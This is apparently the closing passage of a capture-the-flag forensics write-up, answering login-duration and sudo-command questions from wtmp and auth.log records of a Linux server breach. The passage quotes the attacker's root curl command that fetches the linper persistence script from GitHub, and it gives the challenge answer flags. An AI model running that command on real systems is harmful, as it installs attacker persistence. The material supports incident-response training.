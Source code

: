 ```
[2] [00000] [~~  ] [reboot  ] [~           ] [6.2.0-1018-aws      ] [0.0.0.0        ] [2024-03-06T06:17:15,744575+00:00]
[5] [00464] [tyS0] [        ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,354378+00:00]
[6] [00464] [tyS0] [LOGIN   ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,354378+00:00]
[5] [00505] [tty1] [        ] [tty1        ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,469940+00:00]
[6] [00505] [tty1] [LOGIN   ] [tty1        ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,469940+00:00]
[1] [00053] [~~  ] [runlevel] [~           ] [6.2.0-1018-aws      ] [0.0.0.0        ] [2024-03-06T06:17:29,538024+00:00]
[7] [01583] [ts/0] [root    ] [pts/0       ] [203.101.190.9       ] [203.101.190.9  ] [2024-03-06T06:19:55,151913+00:00]
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
[8] [02491] [    ] [        ] [pts/1       ] [                    ] [0.0.0.0        ] [2024-03-06T06:37:24,590579+00:00]
[7] [02667] [ts/1] [cyberjunkie] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:37:35,475575+00:00]
```

In the 2nd and 3rd last logs, we can see the login and logout logs.
By subtracting the times we can see a difference of 4 minutes and 39 seconds, or 279 seconds.

Flag: `279`

## Task 8
> The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

Towards the end of the `auth.log` is a command:
```
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:39 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
```

The command being run is a `curl` to the `linper.sh` for persistence.

Flag: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

## The End!
